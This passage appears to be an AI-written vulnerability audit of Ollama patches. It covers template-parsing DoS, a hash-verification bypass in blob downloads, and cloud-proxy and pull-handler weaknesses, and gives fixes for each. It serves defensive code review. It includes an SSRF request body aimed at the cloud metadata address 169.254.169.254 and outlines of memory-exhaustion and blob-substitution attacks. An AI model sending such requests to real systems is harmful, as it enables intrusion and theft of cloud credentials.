### B1. Memory exhaustion via deeply nested templates (DoS, not patched)

Verified empirically against Go 1.26.1's `text/template`:

- `{{if .X}}` repeated 200 000× nested still parses without error.
- Each level allocates an `IfNode + ListNode + PipeNode + CommandNode +
  FieldNode`, so a template of N levels uses O(N) AST objects.
- There is no size limit anywhere on the `application/vnd.ollama.image.template`
  blob in `server/images.go:351-361` — `os.ReadFile` reads the entire blob
  into memory, then `template.Parse(string(bts))` parses it.

A malicious Modelfile (or a malicious published model that the server pulls)
containing a multi-megabyte / multi-gigabyte template can be served from the
registry and will exhaust the host's RAM at parse time. `Vars()`/`Identifiers()`
recurse through the tree without an O(depth) early-out, multiplying the
allocation. Because the parse happens during `Capabilities()` evaluation
(which is invoked from `/api/show` and several other request paths), an
unauthenticated request can trigger the OOM repeatedly.

The patch does nothing to limit input size or recursion depth.

### B2. Stack overflow on deeply nested templates from non-default-stack callers

`runtime: stack overflow` is a `runtime.throw` (not a Go panic, not
recoverable). Goroutines auto-grow up to ~1 GB of stack, so the typical HTTP
handler is safe, but call paths that share the main goroutine or call the
template package from pinned C threads / signal handlers would crash the
whole process. Reproduced locally on the main goroutine at ~50k-deep
`{{if .X}}…{{end}}`. Out of scope of the patch.

### B3. Same-class nil deref in `tools/template.go`

`tools.findToolCallNode` (`tools/template.go:50-103`) walks the parsed
template AST looking for `IfNode` whose pipeline references `.ToolCalls`. It
dereferences `n.Pipe.Cmds` (line 52) without a nil-check, and recurses with
`findToolCallNode(n.List.Nodes)` for `IfNode`, `RangeNode`, `WithNode`
without nil-checking `.List`. `findTextNode` (line 108-156) has the same
pattern.

`tools.NewParser(m.Template.Template, req.Tools)` is invoked from the chat
handler at `server/routes.go:2382` whenever `req.Tools` is non-empty and
`builtinParser` is nil. Empirically Go's `text/template` parser always
populates `IfNode.List` (it is `&ListNode{Nodes: nil}` for an empty body),
so the in-tree-from-parser path is currently safe — but this is *coupling
an Ollama invariant to an undocumented stdlib invariant*. The patch under
review introduced more guards in `template.Identifiers` for exactly this
class of bug; the analogous walker in `tools/` did not get the same
treatment.

The repo also constructs templates with a hand-built tree in
`template.(*Template).Subtree` (`template/template.go:244-251`) and
`thinking.InferTags` operates on `t.Root` directly — neither validates
that the produced sub-tree has well-formed pipes before handing it back to
callers like `tools.NewParser`.

### B4. `tools.findToolCallNode` ignores `*parse.TemplateNode`

`findToolCallNode` only recurses into `IfNode / ListNode / RangeNode /
WithNode`. A model template that hides its tool-call branch inside a
`{{template "tools" .}}` invocation (a feature templates legitimately use)
will be silently skipped, so the inferred tool-call tag will fall back to
`"{"` and tool parsing semantics change. Not a panic, but a behavior gap
in the same hardening exercise.

### B5. `Vars()` returns *partial* identifier list on error

```go
for _, tt := range t.Templates() {
    for _, n := range tt.Root.Nodes {
        v, err := Identifiers(n)
        if err != nil {
            return vars, err   // <-- returns un-deduped, un-sorted partial vars
        }
        vars = append(vars, v...)
    }
}
```

In `Capabilities()`:

```go
v, err := m.Template.Vars()
if err != nil {
    slog.Warn("model template contains errors", "error", err)
}
if slices.Contains(v, "tools") || ...
```

The handler does **not** return on error; it consumes the partial slice. A
malformed template that contains the literal identifier `tools` *before* the
nil-pipe construct (`{{ .tools }} {{template "x"}}`) would be flagged as
having `CapabilityTools` even though the rest of the template is unparseable.
This isn't directly a crash, but it's a downstream-correctness regression
introduced by the silent-warn pattern.

In practice the load path in `server/images.go:358` rejects malformed
templates outright (because `template.Parse` now propagates the error), so
`m.Template` would be nil and `Capabilities()` returns early. But any
future caller that constructs a `Template` without going through `Parse`
(see B6) will hit this gap.

### B6. Bypass of the new validation by skipping `template.Parse`

The new validation lives in `template.Parse` only. Three callsites in the
tree construct/use templates without going through it:

- `template/template.go:94`: `var DefaultTemplate, _ = Parse("{{ .Prompt }}")`
  — safe (constant).
- `template/template.go:337`: `template.Must(template.New("").AddParseTree("",
  &tree)).Execute(...)` — internal, fed from `deleteNode(t.Template.Root.Copy(), …)`.
  The tree comes from the already-validated `m.Template`, so transitively
  safe.
- `tools/tools_test.go`, `thinking/template_test.go`, `tools/template_test.go`
  — test code uses raw `text/template.New("").Parse(...)` and bypasses the
  ollama wrapper entirely. Not exploitable in production.

So in the current tree all production callers go through the patched
`Parse`. This is a fragile invariant: any new feature that imports
`text/template` directly (rather than `ollama/template`) re-opens the
crash surface.

### B7. `Identifiers` is missing `parse.TemplateNode` Pipe-nil check on inner templates referenced by `define`

`{{define "x"}}{{template "y"}}{{end}}{{template "x"}}` parses successfully
and produces both an outer `TemplateNode("x", Pipe=<nil>)` and an inner
`TemplateNode("y", Pipe=<nil>)` inside the named template `"x"`. `Vars()`
iterates `t.Templates()` so it visits every named tree and now detects both
nil-pipe nodes. This case is correctly fixed.

### B8. Template that compiles but panics at *execute* time

Stdlib `text/template.Execute` runs under `errRecover`, which converts
walk-time panics into typed errors. Verified that
`{{template "missing"}}` parses successfully and yields
`template "missing" not defined` as a returned error rather than a panic.
So execute-time crashes are gated by stdlib's recover and not a viable
bypass.

## Files / lines of interest

- `/Users/bytedance/Desktop/demo/ollama/template/template.go:145-165`
  (Parse — adds Vars() validation)
- `/Users/bytedance/Desktop/demo/ollama/template/template.go:171-189`
  (Vars now returns error)
- `/Users/bytedance/Desktop/demo/ollama/template/template.go:511-577`
  (Identifiers nil-pipe guards)
- `/Users/bytedance/Desktop/demo/ollama/server/images.go:125-142`
  (Capabilities still proceeds on Vars() error)
- `/Users/bytedance/Desktop/demo/ollama/server/images.go:351-361`
  (template blob loaded with no size limit)
- `/Users/bytedance/Desktop/demo/ollama/tools/template.go:50-103`
  (findToolCallNode — same class of walker, no nil-Pipe / nil-List guard)
- `/Users/bytedance/Desktop/demo/ollama/tools/template.go:108-156`
  (findTextNode — same)
- `/Users/bytedance/Desktop/demo/ollama/server/create.go:728-733`
  (setTemplate parses twice — both protected by patch)
- `/Users/bytedance/Desktop/demo/ollama/server/routes.go:444`
  (request-supplied template — protected)
- `/Users/bytedance/Desktop/demo/ollama/thinking/template.go:9-55`
  (templateVisit — already nil-guards at top, safe)

## Suggested follow-ups for the parent agent

1. Add a max-size and/or max-depth check on the template blob in
   `server/images.go::Capabilities` and `template.Parse`. Currently a
   pulled model can ship an arbitrarily large `application/vnd.ollama.image.template`
   layer that is mmap-loaded and recursively walked.
2. Apply the same nil-Pipe / nil-List guards to `tools/template.go`'s
   `findToolCallNode` and `findTextNode` so they don't depend on the
   undocumented invariant that stdlib `text/template` always allocates an
   empty `ListNode` for `if/range/with` bodies.
3. Make `Capabilities()` short-circuit on `Vars() error` instead of
   logging-and-continuing with a partial identifier list.
4. Audit other helpers (`Subtree`, `deleteNode`, `InferTags`,
   `rangeUsesField`) for type-assertion-of-nil-interface panics that mirror
   the `t.Pipe = n.(*parse.PipeNode)` pattern in `deleteNode`.

---

# Bypass Analysis: 2aee6c17 — Streaming Hash Verification

- **Commit**: `2aee6c172b019bfe3f3b5a54b4feaa84bcf89dd6`
- **Branch**: `origin/jmorganca/download-stream-hash` (NOT YET MERGED to main as of HEAD `57653b8e`)
- **Author / Date**: jmorganca@gmail.com / 2025-12-20
- **Files**: `server/download.go`, `server/images.go`, `server/sparse_common.go`, `server/sparse_windows.go`, `server/download_test.go` (new)
- **Type**: undisclosed-fix / control-weakening (silent removal of explicit integrity check)
- **Cluster ID**: `cluster-blob-integrity` (related: `bf198c39` introduced the removed `verifyBlob`; PullModel pipeline)

## Patch summary

The pre-patch design ran a two-stage check:
1. `blobDownload.run()` downloaded N parts in parallel with `io.CopyN` into per-offset writers, with no integrity guarantee on the bytes.
2. `PullModel` then ran a serial loop calling `verifyBlob(layer.Digest)` over every layer, which re-opened each on-disk file and computed sha256 over its entire contents (`server/images.go:1030-1048`). On mismatch, the file was deleted and the pull failed (`server/images.go:660-680` pre-patch).

Post-patch, that loop is deleted from `images.go` (the `skipVerify` map and the entire `verifying sha256 digest` stage are removed; only a comment remains saying "Digest verification now happens inline during download in blobDownload.run() via the orderedWriter, so no separate verification pass is needed"). The integrity guarantee is now meant to come from `streamHasher` running concurrently with the part downloaders inside `run()`. The hasher waits on per-part `MarkComplete` signals via a `sync.Cond`, reads the written bytes back from disk via `ReadAt`, and finally `run()` compares `sh.Digest()` against `b.Digest`.

The intent is sound for the happy path. The problem is that the hash-check is no longer a *post-condition* of "blob exists in the blob store"; it is now coupled to a single code path inside `run()`. Several real and theoretical bypasses follow.

---

## Bypass verdict: **bypassable / relocated** (multiple distinct issues, varying severity)

The dominant pre-existing bypass (`cacheHit` short-circuit) is *worsened* because the second-line defence is gone. Several new failure modes are introduced by the streaming design.

---

## Finding 1 — `cacheHit` short-circuit no longer covered by a second-line check (HIGH)

**Path**: `server/download.go:714-727` in the post-patch tree.

```go
fi, err := os.Stat(fp)
switch {
case errors.Is(err, os.ErrNotExist):
case err != nil:
    return false, err
default:
    opts.fn(api.ProgressResponse{...})
    return true, nil    // <-- short-circuit, no hash check, ever
}
```

If a file exists at `GetBlobsPath(opts.digest)`, `downloadBlob` returns `cacheHit=true` without ever opening or hashing the file. Pre-patch, this was already the behaviour, but `PullModel` then called `verifyBlob(layer.Digest)` for any layer where `skipVerify[layer.Digest] == false`. Crucially, `cacheHit==true` set `skipVerify[layer.Digest] = true`, so even pre-patch the cache-hit branch *also* skipped verification. So this particular bypass is not new, but the patch deletes the only call-site of `verifyBlob` in the production pull path, eliminating the option to ever re-validate later — there is now no production caller of `verifyBlob` left.

Attack: any adversary with file-system write access to `$OLLAMA_MODELS/blobs/sha256-<digest>` (e.g., a co-tenant on a shared host, a malicious init container, a backup-restore pipeline, a misconfigured shared NFS mount) can pre-stage an arbitrary file under the expected blob name, and the next `ollama pull` referencing that digest will accept it untouched. Because Ollama treats blob files as model weights and as content-addressed Modelfile layers, this can lead to model substitution and, depending on layer type (e.g., `application/vnd.ollama.image.template`), code-influencing content swap.

**Bypass severity**: high in shared-storage scenarios; this was the original gap `verifyBlob` (commit `bf198c39`) was meant to backstop, and the patch silently removes that backstop. Recommend the cache-hit branch hash the file (or maintain a verified-blobs marker file) before returning success.

---

## Finding 2 — Hash check is gated by `g.Wait()` succeeding; failure paths short-circuit the hash check but leave the partial file resumable (HIGH)

**Path**: `server/download.go:484-500` post-patch.

```go
if err := g.Wait(); err != nil {
    close(progressDone)
    sh.Stop()
    return err     // <-- early return, never reaches digest comparison
}
<-hashDone
close(progressDone)
if err := sh.Err(); err != nil { return err }
if computed := sh.Digest(); computed != b.Digest {
    return fmt.Errorf("digest mismatch: got %s, want %s", computed, b.Digest)
}
// rename to final blob path
```

Important corollary: if `g.Wait()` returns an error, the function returns *before* the rename, so the partial file is not promoted to the final blob path on this run — but the bytes (and the per-part JSON sidecars in `b.Name + "-partial-N"`) are NOT deleted. The next call to `Prepare` (`server/download.go:265-282` post-patch) reads the surviving `*-partial-*` JSON files and *trusts* their `Completed` counter as the prefix already on disk. Specifically, `Prepare` does:

```go
b.Total += part.Size
b.Completed.Add(part.Completed.Load())
```

and then `run()` skips any part where `part.Completed.Load() == part.Size` (line 447) and only `MarkComplete`s those parts for the hasher. *No* re-hash of any byte that is "claimed complete" in the persisted JSON ever happens. This is also true pre-patch, but pre-patch the post-pull `verifyBlob` would catch a tampered prefix; post-patch nothing does, because the streaming hasher only consumes bytes for parts it sees marked complete during *this* run, not bytes already on disk before the run started.

Attack: an attacker with momentary write access to `$OLLAMA_MODELS/blobs/sha256-<digest>-partial` and `…-partial-<N>` JSON sidecars between two pull attempts (e.g. crash-resume scenario, stalled download) can supply attacker-controlled bytes for any prefix part with `Completed == Size` in the sidecar, and the next resume will accept those bytes unverified. The streaming hasher will only hash the *re-downloaded* tail; the prefix flows straight into `sh.Digest()` via `ReadAt` — so actually the digest WOULD catch this if the entire stream were read. Re-reading the code: `streamHasher.Run()` iterates all parts, waiting for each to be `completed[i]`, and `MarkComplete` is called both for already-complete parts at line 448 (`if part.Completed.Load() == part.Size { sh.MarkComplete(part.N); continue }`) and after a successful download at line 476. Then `Run()` reads from offset 0 forward, so the *prefix from disk* IS hashed. Good — this particular vector is closed by the streaming hasher.

However: the streaming hasher reads via `file.ReadAt(buf[:n], offset)` where `file` was opened with `os.OpenFile(b.Name+"-partial", os.O_CREATE|os.O_RDWR, 0o644)`. There is a TOCTOU window between the moment `MarkComplete` is signalled and the moment `ReadAt` actually reaches that offset (the hasher follows behind the writers; with 48 concurrent downloaders by default and 64 MB parts, the spread can reach gigabytes — the patch itself logs a "page cache pressure" warning at >4 GB). A second writer to the same fd (e.g., another `downloadChunkToDisk` goroutine handling a *retry* of a slow part) can clobber a region after `MarkComplete` but before the hasher reads it. See Finding 3.

**Bypass severity**: medium-high. The dominant bypass is the cache-hit case (Finding 1); the resume-prefix case is closed by the new design *if* the hasher actually reaches every byte before being told to stop.

---

## Finding 3 — Slow/stall retries reuse the same on-disk offset and can race the hasher (HIGH, novel)

**Path**: `server/download.go:452-481` post-patch.

The retry loop wraps `downloadChunkToDisk` in `for try := 0; try < maxRetries; try++`, and on `errPartSlow` or `errPartStalled` it calls the function *again* for the same `part`. Inside `downloadChunkToDisk`:

```go
w := io.NewOffsetWriter(file, part.Offset)   // always restarts at part.Offset (NOT part.Offset + Completed)
buf := make([]byte, 32*1024)
var written int64
for written < part.Size { ... }
```

Critically, every retry re-issues `Range: bytes=part.Offset .. part.Offset+part.Size-1` (line 533) and re-writes from `part.Offset` (line 540). Pre-patch, `downloadChunk` resumed at `part.StartsAt() == part.Offset + part.Completed.Load()` and used `io.CopyN(w, ..., part.Size - part.Completed.Load())`. Post-patch, the resume-within-a-part semantics have been removed and every retry starts from byte 0 of that part.

Race: assume part 5 finishes successfully at T0 and `sh.MarkComplete(5)` is called. The hasher goroutine is far behind — it is currently working on part 2. Meanwhile part 6's first attempt is flagged `errPartSlow` at T1, and a fresh `downloadChunkToDisk` for part 6 begins, which opens an `io.NewOffsetWriter(file, parts[6].Offset)` and starts streaming bytes. By the time the hasher reaches part 5's offset range, the bytes there are still correct, so this particular race is benign for *part 5*.

But consider the slow-retry case for *the same part*: part 5's first attempt got `errPartSlow` after writing 30 MB of its 64 MB. The slow detector returned `errPartSlow`. The retry loop calls `downloadChunkToDisk` again for part 5, which opens `io.NewOffsetWriter(file, parts[5].Offset)` and starts overwriting from byte 0 of part 5. The first attempt's HTTP body goroutine, however, is still alive: errgroup.WithContext returns when *any* goroutine errors, but the slow-watchdog returning `errPartSlow` does not actually cancel the context until `g.Wait()` in `downloadChunkToDisk` returns — and the watchdog's return only propagates the error up through `g.Wait()`. The fetcher goroutine should see ctx.Done because errgroup.WithContext cancels its derived context when any worker returns non-nil. Good — the fetcher is cancelled. But `resp.Body.Read(buf)` can race: the goroutine may have a buffered chunk in flight, do one more `w.Write(buf[:n])` to the *old* offset writer, and then exit. That stray write can land *into the same byte range that the retry's writer is now actively rewriting* with new bytes from a different HTTP response. With concurrent writes from two `io.NewOffsetWriter`s targeting overlapping ranges of the shared `*os.File` fd, the order of the two `pwrite` syscalls determines who wins.

A malicious origin (or a MITM on a non-TLS mirror — recall download.go has the `if mp.ProtocolScheme == "http" && !regOpts.Insecure { return errInsecureProtocol }` check in `images.go`, but `regOpts.Insecure` defaults to false only at top-level; the `directURL` follow-redirect chain does not re-check scheme on the redirect target) that wants to corrupt a small prefix can deliberately stall after sending the first 30 MB, win the post-cancel race for the last write, and the hasher will then read those attacker bytes.

**The streaming hasher will catch any final-state mismatch** because it reads from page cache after writes settle, *unless* the read happens *before* the late-arriving stray write. The hasher waits for `MarkComplete(part.N)`, which is only called on the `default:` branch (line 476) after the retry succeeded, so the hasher won't read part 5 until the *successful* attempt's `part.Completed.Store(part.Size)` and `b.writePart(...)` returned. After that, additional writes from a leaked-goroutine first-attempt fetcher could land *after* the hasher read.

Concretely: if the hasher reads bytes [parts[5].Offset .. parts[5].Offset+Size) at time T_h, and a stray late `pwrite` from the abandoned first attempt lands at time T_w > T_h within that range, the hasher computed the digest over the "correct" (second-attempt) bytes, the digest matches `b.Digest`, but the on-disk bytes that are subsequently `os.Rename`d into place are corrupted. The next process to read the blob (e.g., `llm.Server` mmap'ing the GGUF) sees attacker bytes.

**Severity**: high-leverage but constrained to (a) attacker-controlled origin or MITM on insecure registry, plus (b) winning a goroutine-cancellation race. Mitigation: the inner errgroup should `wait` for both goroutines including the cancelled fetcher before returning, OR the writer should use a per-attempt buffer that is `pread`-validated before being treated as "this attempt's bytes," OR — the cleanest — the streaming hasher should `fsync` and re-read tails of completed parts at the end before computing the final digest (which it does *not* do).

---

## Finding 4 — HTTP 206 Content-Range is not validated; server may return bytes from a different range than requested (MEDIUM)

**Path**: `server/download.go:528-565` post-patch (and pre-patch was identical in spirit).

```go
req.Header.Set("Range", fmt.Sprintf("bytes=%d-%d", part.Offset, part.Offset+part.Size-1))
resp, err := http.DefaultClient.Do(req)
...
w := io.NewOffsetWriter(file, part.Offset)
buf := make([]byte, 32*1024)
var written int64
for written < part.Size { ... }
```

There is no check on `resp.StatusCode` (must be 206 for a true range response; a 200 with a full body would dump the entire blob into one part's slot, overflowing into adjacent parts) and no check on `resp.Header.Get("Content-Range")` matching the requested range. Pre-patch, this was caught by `verifyBlob` at the end. Post-patch, the streaming hasher *will* eventually catch the wrong overall sha256, BUT:

- A 200-response (whole blob) into a `io.NewOffsetWriter(file, part.Offset)` will write up to `part.Size` bytes (the loop terminates at `written < part.Size`) and then `break` on the read loop's `if written < part.Size { ... }` condition only when the body is exhausted — actually it terminates on `written == part.Size` and then the goroutine completes successfully because the loop exits. The *rest* of the response body is discarded by `defer resp.Body.Close()`. So a 200 effectively writes the *prefix* of the whole blob into the slot of `part[N]`. For part 0 this will produce *correct* bytes; for parts N>0 this will produce wrong bytes for that range; the streaming hasher will then mismatch on `b.Digest`, returning a digest-mismatch error — but the partial file is not deleted, and the next `ollama pull` will resume from what it thinks is good prefix data (Finding 2 corollary), reading the stale corrupt prefix from sidecars marked Completed. Since the digest mismatch returned an error from `run()`, however, the blob never gets renamed to the final blob path, so subsequent processes do not consume it. The next pull WILL re-read sidecars with `Completed == Size` for whatever parts happened to "succeed" (any 200 response that fed exactly part.Size bytes into a part slot) and will skip downloading them, then the streaming hasher will again mismatch on the global digest, and the cycle repeats — *denial of service* but not silent corruption.

- A 206 response with a *different* Content-Range than requested (e.g., a malicious cache returning `bytes=0-X` for a `bytes=Y-Z` request) is also unchecked. Same outcome: digest mismatch caught, no silent compromise — but partial files persist and resume keeps re-trusting them.

**Severity**: medium. Permanent stuck-pull DoS (must `rm` the `-partial*` files manually). Not silent compromise; the streaming hasher does its job here.

---

## Finding 5 — Concurrent downloads of the same digest race on shared file descriptor and `blobDownloadManager` map (MEDIUM)

**Path**: `server/download.go:730` post-patch — `blobDownloadManager.LoadOrStore` is the dedup gate.

If two concurrent `ollama pull` calls reference the same digest, `LoadOrStore` ensures only one `blobDownload` struct is created and both callers `Wait` on it. So far so good: only one `run()` executes. But:

- The streaming hasher only knows about this `run()`. If the *first* `run()` errors out (Finding 4 case, or context cancel), the `blobDownloadManager.Delete(b.Digest)` happens at top of `run()` (line 347 `defer blobDownloadManager.Delete(b.Digest)`), the partial file remains, AND a *new* concurrent caller arriving after the deferred Delete but before the next `os.Stat` in `downloadBlob` may stat the *partial* file's path (`b.Name+"-partial"`)... no wait, `downloadBlob` stats `fp = GetBlobsPath(opts.digest)` which is the FINAL blob path, not the `-partial`. So the second caller will not cache-hit on a partial. It will create a new blobDownload, call `Prepare` which globs `b.Name + "-partial-*"` (sidecar JSONs), and trust their Completed counters again (Finding 2 issue compounded).

- Worse: the `file, err := os.OpenFile(b.Name+"-partial", os.O_CREATE|os.O_RDWR, 0o644)` (line 350 post-patch) is opened without `O_TRUNC` and without any locking. If the previous run's leaked fetcher goroutine (Finding 3) is *still* running when the next pull starts, two `*os.File` handles to the same path now exist, both writing concurrently, and the new run's `setSparse(file)` is GONE (the patch deleted `setSparse` and `_ = file.Truncate(b.Total)` — see lines 225-227 pre-patch versus 354 post-patch). So if `b.Total` shrinks across runs (different request hits a different mirror that lies about size), the file is not retruncated; if it grows, no preallocation. Mostly latent but cumulative with Finding 3.

**Severity**: medium. Not exploitable in isolation; compounds Finding 3.

---

## Finding 6 — Streaming hasher stops mid-stream on `g.Wait()` error and the partial file with a *valid prefix sha256 prefix-mismatch* persists (LOW, DoS only)

**Path**: lines 484-488 post-patch.

```go
if err := g.Wait(); err != nil {
    close(progressDone)
    sh.Stop()
    return err
}
```

`sh.Stop()` sets `h.done = true` and broadcasts the cond, causing `Run()` to exit early. No bytes are deleted. As discussed above, this leads to permanent stuck-pull until the user manually clears partials. Not a security bypass per se, but an availability issue caused by the patch's removal of the unconditional post-pull verification (which would otherwise have run a clean re-hash on a renamed file).

---

## Finding 7 — `verifyBlob` is now dead code in production but still exported in the `server` package (LOW, hygiene)

`server/images.go:1030 verifyBlob` and `errDigestMismatch` remain exported (lowercase but package-visible). After this commit, the only callers in the repo are tests. If the `errDigestMismatch` matching logic in `PullModel` is also removed (which it is — see the deleted block in the diff), there is no code path that performs mismatch-driven cleanup of the on-disk blob. The pre-patch code did:

```go
if errors.Is(err, errDigestMismatch) {
    fp, err := GetBlobsPath(layer.Digest)
    ...
    os.Remove(fp)
}
```

Post-patch, on a streaming digest mismatch, `run()` returns an error (line 499) but does NOT remove the partial file or the sidecars. The next pull will resume into the same broken state.

**Severity**: low. Compounds Findings 4 and 6.

---

## Finding 8 — gzip / Content-Encoding angle (CVE-2024-12886 lineage): NOT bypassable here

The streaming hasher reads back from disk via `ReadAt` after the writer wrote whatever bytes Go's `net/http` produced from `resp.Body.Read`. Go's default HTTP transport transparently decompresses `Content-Encoding: gzip` *only* when the client did not set `Accept-Encoding` (`http.Transport.DisableCompression` is false by default and the request here does not set Accept-Encoding). The bytes that reach `resp.Body.Read` and then get written to disk are therefore the decoded bytes. The hash is computed over those same on-disk bytes. So if the upstream server sends gzip-encoded content-with-Content-Encoding, the hasher sees the decoded bytes; for the hash to match `b.Digest`, the decoded bytes must be the original blob. A malicious server cannot trick the client into hashing the *encoded* form while writing the *decoded* form (or vice versa) because they are the same byte stream in this path.

The CVE-2024-12886 angle (gzip bomb) is *not* re-introduced by this patch because the HTTP transport's automatic decompression disclaims `Content-Length` (Go sets `resp.Uncompressed = true` and `resp.ContentLength = -1`). The download code never reads `resp.ContentLength` here; it reads up to `part.Size` bytes from the body. A gzip bomb would expand into many `part.Size`-bounded reads, but each part's loop terminates at `written == part.Size`, so write-amplification is bounded to `part.Size * num_parts == b.Total`. Disk-fill DoS is bounded to the requested blob size. Not a regression.

**Verdict for this vector**: sound.

---

## Finding 9 — Blob fetched but never registered as a layer

The `downloadBlob` function is only called from `PullModel`'s layer loop (`server/images.go:623-634` post-patch) and from the test suite. There is no path that fetches a blob without it being registered as a layer in the manifest, so blob-store pollution via "fetched but never registered" is not currently reachable. The streaming hasher's check is in `run()` which fires regardless of who caused the download. Sound.

---

## Cluster summary

| Finding | Severity | Type | New regression vs pre-patch? |
|---|---|---|---|
| 1. cacheHit bypass loses second-line check | HIGH | relocated | Yes (loses fallback) |
| 2. resume-prefix trust | MEDIUM-HIGH | sound (hasher reads prefix) | No — actually closed by streaming design |
| 3. slow-retry stray-write race | HIGH | bypassable | Yes (new code path) |
| 4. unchecked HTTP 206 / 200 / Content-Range | MEDIUM (DoS) | bypassable for DoS, sound for confidentiality | Worse (no cleanup) |
| 5. concurrent dl on shared fd + missing Truncate/setSparse | MEDIUM | relocated | Yes (Truncate removed) |
| 6. stuck partial after digest mismatch | LOW | relocated | Yes (no cleanup loop) |
| 7. dead `verifyBlob` + missing errDigestMismatch cleanup | LOW | hygiene | Yes |
| 8. gzip / Content-Encoding | n/a | sound | No |
| 9. orphan blob fetch | n/a | sound | No |

**Net verdict**: `bypassable / relocated`. The streaming-hasher design is correct for the post-completion final-byte state IF and only if (a) the hasher actually reads every byte before any post-completion modification, and (b) every code path that promotes bytes to "the blob" goes through `run()`. Finding 1 violates (b) for the cache-hit path, and Finding 3 violates (a) when slow-retry leaks a fetcher goroutine that wins the post-cancel write race.

**Recommendation for the maintainer (before merging)**:
1. In `downloadBlob`, when `os.Stat(fp)` succeeds, hash the file before returning `cacheHit=true` (or maintain a sibling `.verified` marker file written only after a successful streaming verify). Restoring the explicit `verifyBlob` call for cache hits closes Finding 1.
2. In the slow-retry branch, explicitly cancel the inner errgroup context AND `g.Wait()` for both goroutines before issuing the next attempt, OR open a per-attempt fd / use a write lease that is invalidated on abort. Closes Finding 3.
3. After `g.Wait()` succeeds, `file.Sync()` and only then run the final loop of the hasher OR re-read each part tail to ensure the page-cache view matches the disk view. Closes Finding 3 fully.
4. On any `return err` from `run()` after `Prepare`, delete the partial file and sidecars (or at least invalidate sidecars whose Completed == Size hasn't been hash-verified). Closes Finding 4 cleanup, Finding 6.
5. Validate `resp.StatusCode == 206` (or 200 only when `len(b.Parts) == 1 && part.Offset == 0`) and that `Content-Range` matches the request. Defence in depth for Finding 4.
6. Consider keeping `verifyBlob` as an end-of-pull belt-and-braces check; the cost is one O(blob-size) read from page cache (likely warm), measured at the same throughput as the streaming hasher.


---

# 39982a95 — Cloud auth proxy revert (and its re-revert)

**Patch under analysis:** `39982a95` Revert "Reapply 'don't require pulling stubs for cloud models'" (#14606)
**Cluster ID:** `cloud-stub-flap` (8207e55e -> 97d2f05a -> 799e51d4 -> 39982a95 -> 4eab60c1)
**Type:** reverted-fix / control-weakening (subsequently re-reverted)
**Tag:** `[undisclosed]`

## Patch summary
Commit `39982a95` deleted 2843 lines that introduced `cloud_proxy.go`,
`model_resolver.go`, `internal/modelref/modelref.go`, plus the 988-line
`routes_cloud_test.go`. The deleted code provided:
- `cloudPassthroughMiddleware` / `cloudModelPathPassthroughMiddleware` to
  intercept `/v1/*` calls and proxy `:cloud` model traffic to ollama.com.
- `parseAndValidateModelRef` / `parseNormalizePullModelRef` model source
  validation.
- `writeCloudUnauthorized` 401-with-signin-url helper.
- `signCloudProxyRequest` ed25519 request signing for outgoing cloud calls.

## Bypass verdict
**relocated** — `39982a95` was itself reverted three days later by
`4eab60c1` ("Reapply ... again"), so the deleted code is back in HEAD
57653b8e. The series is a four-step revert flap, not a long-lived
weakening. **However**, the re-applied code carries pre-existing security
gaps that the patch ping-pong did not address.

## Evidence — current state in HEAD 57653b8e

### Cloud proxy code is present and active
- `server/cloud_proxy.go` (568 lines) exists and exports `cloudPassthroughMiddleware`,
  `cloudModelPathPassthroughMiddleware`, `proxyCloudRequestWithPath`,
  `signCloudProxyRequest`, `writeCloudUnauthorized`.
- `server/model_resolver.go` (81 lines) exists with `parseAndValidateModelRef`
  and `parseNormalizePullModelRef`.
- `internal/modelref/modelref.go` (115 lines) exists.
- `server/routes.go:1720-1733` — all `/v1/*` routes wrap
  `cloudPassthroughMiddleware`; `/v1/models/:model` wraps
  `cloudModelPathPassthroughMiddleware`.
- `server/routes.go:210, 690, 871, 931, 1065, 1127, 2118` and
  `server/create.go:113` actively call `parseAndValidateModelRef` /
  `parseNormalizePullModelRef`.

### `/api/me` (WhoamiHandler) — `server/routes.go:1981-2010`
- Hardcoded to `https://ollama.com` (no SSRF), uses `http.DefaultClient`
  (TLS verification on).
- **Trust anchor weakness:** the JSON `UserResponse` returned by ollama.com
  is consumed without signature verification. The local server only
  trusts TLS PKI; if an attacker controls DNS or terminates TLS for
  ollama.com on the client's network they can spoof identity. There is
  no per-response ed25519 verification using the registry's well-known key.
  This is a long-standing design choice (not introduced or worsened by
  the revert/re-revert).

### `/api/experimental/web_search` and `/api/experimental/web_fetch` — `server/routes.go:1707-1708, 1958-1979`
- Both call `webExperimentalProxyHandler` which forwards the request body
  to `proxyCloudRequestWithPath(c, body, "/api/web_search", ...)` against
  `cloudProxyBaseURL` (default `https://ollama.com:443`).
- The outgoing request is signed via `signCloudProxyRequest`
  (`cloud_proxy.go:360`) which only signs when the host matches
  `cloudProxySigningHost` (default `ollama.com`).
- **Origin validation gap:** the handler does not require local-client
  authentication. Any attacker who can reach the bind address (e.g. via
  the localhost-allowlist bypass tracked separately) can use the local
  server as an unauthenticated proxy to ollama.com's web search and web
  fetch endpoints. The ollama.com side will rate-limit per signed key,
  but the local user's signing key is implicitly used to authenticate
  arbitrary attacker queries — query-content exfiltration and signing-key
  reuse risk.

### `cloudProxyBaseURL` override (`OLLAMA_CLOUD_BASE_URL`) — `cloud_proxy.go:384-429`
- `resolveCloudProxyBaseURL` enforces:
  - non-loopback hosts blocked in `gin.ReleaseMode`
  - non-loopback hosts must use `https`
  - userinfo, query, fragment, and non-root path rejected
- Sound — the override cannot be used to redirect cloud traffic to an
  attacker host in release builds.

### Pull SSRF surface (this is the most actionable finding)
The revert/re-revert did NOT touch `PullHandler`, but the cloud-proxy
discussion is the right context to surface this. `/api/pull` accepts a
fully-qualified model name `host/namespace/model:tag`. The host is parsed
by `model.ParseName` (`types/model/name.go:140`), validated only by
`isValidPart` (`name.go:344-372`), which permits any string of
alphanumerics + `_`, `-`, `.`, `:` up to 350 chars.
- `pullModelManifest` (`server/images.go:853-858`) builds the URL via
  `n.BaseURL().JoinPath("v2", ...)` — i.e. `https://<user-host>/v2/...`.
- `BaseURL` (`types/model/name.go:317-322`) sets `Scheme = n.ProtocolScheme`
  (defaults to `https` only when `n.Host == defaultHost`; otherwise the
  scheme is empty until the request goes out, where Go's `url.URL` with
  empty Scheme + Host = `<host>` may be coerced).
- **No host allowlist** for pull. `POST /api/pull
  {"name":"169.254.169.254/library/x:latest"}` will issue an outbound
  request to AWS/GCP IMDS. Response data ends up in error messages
  ("pull model manifest: ...") visible to the requester.
- The `RemoteHost` allowlist via `envconfig.Remotes()` at
  `server/routes.go:271, 2193` only governs `/api/generate` and
  `/api/chat` invocation against a manifest that already specifies a
